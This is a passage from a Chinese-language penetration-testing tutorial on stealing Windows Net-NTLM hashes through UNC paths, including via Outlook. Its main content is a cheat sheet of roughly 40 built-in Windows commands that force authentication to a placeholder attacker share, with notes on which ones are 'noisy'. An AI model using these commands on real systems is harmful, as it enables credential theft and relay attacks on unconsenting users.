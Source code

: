 当目标使用的是 Windows 机器，并且使用的是 Outlook 客户端的话，他甚至不需要打开和点击邮件，Outlook 客户端就会自动向指定 UNC 路径进行认证，我们就能收到目标用户的 Net-NTLM Hash 了。

### 7.系统命令

通过执行系统命令，访问指定的 UNC 路径，也可以获取目标机器的 Net-NTLM Hash。

```
net.exe use \hostshare
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog)
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
```

如图所示，使用系统命令 cacls.exe 触发 Net-NTLM Hash。

![截图](6151f7894973fcd069f296f6bce6fb8b.png)
